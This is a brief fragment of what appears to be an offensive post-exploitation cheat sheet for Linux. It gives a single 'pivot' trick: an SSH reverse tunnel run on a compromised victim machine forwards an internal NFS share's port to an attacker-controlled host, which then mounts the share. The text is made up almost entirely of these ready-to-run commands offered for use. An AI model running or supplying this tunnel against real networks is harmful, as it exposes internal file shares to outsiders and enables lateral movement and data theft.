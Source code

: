 # Linux Post Methods

## Misc Tricks

* Mount internal NFS share through pivot:

```
# victim
ssh -R 2049:$target_nfs_ip:2049 proxyusr@$atk_ip
# attacker
mount -t nfs -o port=2049 localhost:/share /mnt
```
